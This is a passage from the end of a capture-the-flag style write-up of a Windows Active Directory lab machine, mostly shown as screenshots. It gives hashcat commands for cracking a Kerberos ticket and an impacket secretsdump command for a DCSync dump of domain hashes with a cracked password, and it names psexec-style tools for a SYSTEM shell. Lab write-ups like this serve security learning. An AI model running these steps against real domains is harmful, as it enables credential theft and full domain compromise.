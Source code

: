 <img src="https://i.imgur.com/B0xtAHK.png"/>

Now we need to crack this ticket to get the password

<img src="https://i.imgur.com/gjCDeVc.png"/>

```bash
hashcat -a 0 -m 13100 hash2.txt /opt/SecLists/Passwords/rockyou.txt --force
```

<img src="https://i.imgur.com/O0x0ObM.png"/>

Now we don't we have to do anything crazy here , we don't even need a shell as mrlky user because from the bloodhound graph we saw that this user has DCsync rights so we can dump NTDS.dit but you may think that kerbeors is running locally on the machine but impacket's `secretsdump.py` works on rpc calls so you don't need to worry about having access to kerberos 

```bash
python3 secretsdump.py htb.local/mrlky:Football#7@10.129.158.71
```

<img src="https://i.imgur.com/ZzrDAnq.png"/>

We can now use either `smbexec.py` , `psexec.py` or `wmiexec.py` to get a shell as `NT AUTHORITY \ SYSTEM` or `Administrator`

<img src="https://i.imgur.com/bFduiTZ.png"/>

<img src="https://i.imgur.com/ySB45tU.png"/>

<img src="https://i.imgur.com/gBpVDmg.png"/>


 ## References
 
 - https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/
- https://www.thesecmaster.com/how-to-request-a-certificate-from-windows-adcs/
- https://www.tecmint.com/generate-csr-certificate-signing-request-in-linux/
- https://serverfault.com/questions/215606/how-do-i-view-the-details-of-a-digital-certificate-cer-file
- https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb
- https://cyberark-customers.force.com/s/article/language-mode-error
- https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass
- https://github.com/GreatSCT/GreatSCT
- https://powersploit.readthedocs.io/en/latest/Recon/Invoke-UserImpersonation/
